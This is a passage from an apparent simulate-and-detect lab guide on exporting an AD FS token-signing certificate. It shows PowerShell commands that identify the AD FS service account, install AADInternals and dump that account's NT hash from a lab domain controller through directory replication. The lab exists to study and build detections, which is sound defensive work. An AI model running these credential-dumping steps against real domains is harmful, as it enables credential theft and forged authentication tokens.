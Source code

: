 ```PowerShell
$AdfsServiceAccount = 'adfsadmin'
$AdfsAdmin = ([adsisearcher]"(&(ObjectClass=user)(samaccountname=$AdfsServiceAccount))").FindOne() 
$Object = New-Object PSObject -Property @{ 
    Samaccountname = ($AdfsAdmin.Properties).samaccountname 
    ObjectGuid  = ([guid]($AdfsAdmin.Properties).objectguid[0]).guid 
    ObjectSid   = (new-object System.Security.Principal.SecurityIdentifier ($AdfsAdmin.Properties).objectsid[0],0).Value 
}
$Object | Format-List
```

![](../../resources/images/simulate_detect/credential-access/exportADFSTokenSigningCertificate/2021-05-19_05_get_adfs_service_account.png)

### Install AADInternals

4.  On the same elevated PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals –RequiredVersion 0.4.8 -Force 
Import-Module –Name AADInternals 
```

### Get NTHash of AD FS Service Account via Directory Replication Services (DSR)

5. Get the NTHash of the AD FS service account. AADInternals accomplishes this via [Active Directory Replication Services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) with the [Get-AADIntADUserNTHash](https://github.com/Gerenios/AADInternals/blob/master/DRS_Utils.ps1#L71) function. 

```PowerShell
$ObjectGuid = '5e1ede45-89cb-4ddc-b300-968484f7175b'
$ObjectSid = 'S-1-5-21-2490359158-13971675-3780420524-1103'
$Server = 'DC01.simulandlabs.com'
$cred = Get-Credential

Get-AADIntADUserNTHash –ObjectGuid $ObjectGuid –Credentials $creds –Server $Server -AsHex 
```
